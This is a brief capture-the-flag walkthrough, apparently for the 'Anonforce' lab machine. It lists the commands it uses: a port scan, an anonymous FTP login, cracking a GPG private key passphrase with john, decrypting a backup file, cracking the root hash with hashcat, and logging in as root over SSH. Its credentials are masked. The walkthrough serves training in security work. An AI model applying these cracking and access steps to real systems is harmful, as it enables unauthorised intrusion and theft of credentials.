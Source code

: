 ```yaml
---
date: 2024-06-19
authors:
  - mrashco
title: Anonforce
tags: 
categories: 
series:
---
```

Writeup: [YouTube](https://youtu.be/viY-a3B1ItQ) // Blog

---

rustscan -a $ip, 21:ftp 22:ssh

ftp $ip, anonymous

user = m*******

get user.txt

- cat ~/user.txt

get /notread/*

- `gpg2john private.asc > private.hash`
- `john --wordlist=/rockyou.txt private.hash`
- x******

`gpg` [🔗](https://www.reddit.com/r/GnuPG/comments/mibwbv/i_have_an_elg_private_key_how_do_i_use_it_to/) [🔗](https://en.wikipedia.org/wiki/Pretty_Good_Privacy) 

- `gpg -d backup.pgp`

nano root.hash

- `hashcat root.hash rockyou.txt`
- h*****

`ssh root@$ip`